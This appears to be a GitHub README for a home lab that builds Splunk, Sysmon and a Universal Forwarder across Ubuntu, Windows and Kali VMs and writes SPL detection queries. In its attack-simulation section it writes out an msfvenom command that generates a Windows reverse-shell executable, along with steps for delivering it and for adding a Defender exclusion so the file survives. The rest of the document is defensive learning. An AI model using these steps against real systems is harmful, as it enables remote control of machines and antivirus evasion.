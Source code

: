 # Summary
As a way to expand my knowledge on Splunk, SPL and how logs are ingested in Splunk, I made this project.

I used VMWare for this project, making 3 VMs locally to test with.

I learned how to:
- Ingest logs from a machine, from windows event viewer and sysmon.
- Set up Splunk on a machine.
- Make basic SPL queries to find malicious activity such as shells, files created etc.

## Main Idea

Three machines:
  - Ubuntu (Splunk Host)
  - Windows 10 (Victim machine)
  - Kali (Attacker)

Kali machine serves as an attacker to test out any attack we would seek to find on our Splunk logs, the Windows 10 machine is set up with **Universal Forwarder**, so we can get the logs coming from it to our Splunk host machine.

Ubuntu machine serves to run Splunk.

Network diagram:
![image](https://github.com/user-attachments/assets/75ea119f-a992-4379-bdd9-db0d98b37e88)

## Setup

Fairly easy, simply creating the kali VM for a start, putting it in a network using VMWare's Virtual Network Editor and disabling DHCP on it so the IPs are static.

For the Ubuntu Splunk host we'll go on Splunk's website to download **Splunk Enterprise**, install and start it.

The windows machine requires some more attention, needing to download the universal forwarder. During setup we will need to input the IP of our Ubuntu host, which in this case is `192.168.56.30`. We can leave the port blank here.

We'll now need to setup sysmon, downloading it from the official microsoft website, then extract the files from the `.zip` file we downloaded.

Sysmon needs to be setup with a config, we will use SwiftOnSecurity's `sysmonconfig.xml` to set up sysmon.

Once this is set up and verified to be running, we should create an `outputs.conf` and `inputs.conf` file in the `C:\Program Files\SplunkUniversalForwarder\etc\system\local` directory.

The `inputs.conf` file will look something like this, and will be to tell Splunk where we want to look on this machine for logs:

```
[WinEventLog://Security]
disabled = 0

[WinEventLog://System]
disabled = 0

[WinEventLog://Application]
disabled = 0

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = sysmon
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational

```

In short, this tells the UF (Universal Forwarder) to look for logs in the event log, and to look for logs related to Security, System and Application. The last entry will be the one to help us ingest logs from Windows Sysmon, which we will also create an index for.

The `outputs.conf` file will look like so and will tell the UF where to send these logs:

```
[tcpout]
defaultGroup = default-autolb-group

[tcpout:default-autolb-group]
server = 192.168.56.30:9997

```

This makes a group, and tells UF the IP and port to which to send the logs to `9997` is the default port for Splunk log ingestion.

We will also need to create an outbound firewall rule to make sure our data actually makes it to our Ubuntu Splunk machine.

For this, simply go to the windows firewall settings, click on advanced and create an outbound rule that allows us to send traffic to `192.168.56.30` over port `9997`.

Once this is all done, we just have to restart the SplunkForwarder service, and then we can check if the logs are ingesting correctly by querying `index=main` on our Splunk app.

If all has gone well, you now have a working HomeLab!

## Generating logs and Splunk queries to find them

So now that the lab is set up, we can use our kali machine to generate a meterpreter reverse shell payload and execute it in our target system.

Something simple like ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.10 LPORT=4443 -f exe -o shell.exe ```, keeping in mind that LHOST will be the IP of our kali machine and LPORT the port it will be listening on to later use the `multi/handler` module on metasploit to listen for traffic on that port.

We can use a `python3 -m http.server 8080` to lift a simple server through which we can deliver our payload to our Windows machine. (Remember to deliver the payload to a folder Windows Defender won't look in by adding an exclusion or else it'll be removed.)

Then use wget to grab the payload, remember to run the `multi/handler` module on the kali machine and then simply run the executable we created.

So we'd have a reverse shell running on the system undetected by the AV, whilst giving it some help, albeit.

To check for process creation (MITRE T1543), which is given the Event Code number 1 by sysmon, we would use the index we created earlier named sysmon to query our logs for powershell or CMD.

```
index=sysmon EventCode=1 
(Image="*powershell.exe" OR Image="*cmd.exe")
| table _time, ComputerName, User, Image, ParentImage, CommandLine
| sort -_time
```

Using the query above is a good start, but...

![image](https://github.com/user-attachments/assets/129120c9-8bb0-4f7a-9193-5b63cb634c5c)

...it also gives us a lot of data we don't need, we can remedy this by filtering out Splunk's processes:

```
index=sysmon EventCode=1 
(Image="*powershell.exe" OR Image="*cmd.exe")
NOT (ParentImage="*splunk*" OR CommandLine="*splunk*")
| table _time, ComputerName, User, Image, ParentImage, CommandLine
| sort -_time
```

![image](https://github.com/user-attachments/assets/bcf213e5-49a4-410c-9af1-c422999bc466)

Much better! We can clearly see there's an odd file there which shouldn't really exist.


We can also use Event Code 3 on sysmon to search for suspicious network traffic, such as the one that might indicate our machine is under command and control of an adversary (MITRE TA0011).

```
index= sysmon EventCode=3
| search NOT (Image="*splunk*")
| table _time, ComputerName, User, Image, CommandLine, DestinationIp,  DestinationPort
| sort -_time
```

With this, we'll see traffic, ComputerName associated, the User associated to the process, the path associated to the file, the Destination Ip and destination port, while searching for Event ID 3 events on sysmon and sorting by newest first.

![image](https://github.com/user-attachments/assets/0ec2e65b-e73d-476f-beb5-41b6a75d3dab)

So we can see, powershell was used to download some malware, and then some connections came from that malware.

## Conclusion

This was a great project for me to cut my teeth on Splunk, ingesting logs, querying data and differentiating malicious logs from regular logs.

I will be using different data sets like the ones provided on Boss of the SOC to get better at querying, all in all, it was quite fun!


